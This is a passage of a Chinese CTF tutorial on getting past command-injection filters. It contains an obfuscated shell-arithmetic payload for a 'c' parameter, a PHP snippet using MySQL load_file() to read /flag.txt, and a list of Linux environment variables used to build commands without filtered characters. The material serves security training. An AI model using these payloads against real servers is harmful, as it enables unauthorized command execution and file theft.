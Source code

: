 payload：

```shell
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```

### 通过数据库读取文件

在Mysql等语言中，是存在方式直接读取文件的，例如Mysql可以使用`load_file()`函数。当然这种读取方式是需要获取数据库信息的。

下面是用PHP建立数据库连接并读取文件的示例：

```php
c = try{
    $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
    foreach($dbh->query('select load_file("/flag.txt")') as $row){
        echo $row[0]." ";
    }
    $dbh = null;
}catch(PDOException $e){
    echo $e->getMessage();
    exit(0);
}
```



### 通过LInux环境变量构造命令

有以下shell的特性：

```bash
${PWD} # 等效于$PWD，结果为当前路径
${PATH} # 等效于$PATH，结果为环境变量
```

比如：

![image-20220912194929880](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202209121949765.png)

上面的变量是Linux的自带变量，还有很多自带变量，此处不再赘述。一些常见的如下：

```bash
${SHLVL} # 意思是shell的深度，直接调用为1，假如在bash中进入bash，则值为2.可用来构造1这个数。
${BASH} # 输出bash完整路径名。通常为/bin/bash或/usr/local/bin/bash
${BASH_VERSION} # 输出BASH版本。至少第一位是数字，可能3,4,5,6？
${HOME} # root用户在/root，一般用户在/home/账号
${RANDOM} # 随机数，可能为4位或5位数？
${USER} # 用户名，师傅们说一般权限给的都是www-data
${IFS} # 这个是分隔符，但是最重要的是下一条性质
${#IFS} # 为3
${#?} # 为1
$? # 上一条指令执行成功 结果为0 执行失败 结果为1.注意，command not find测试结果为127.有师傅这里先故意使用<A命令，<这里的意思是输出到A（我猜应该是？），然后即执行错误，因为文件A不存在。
```

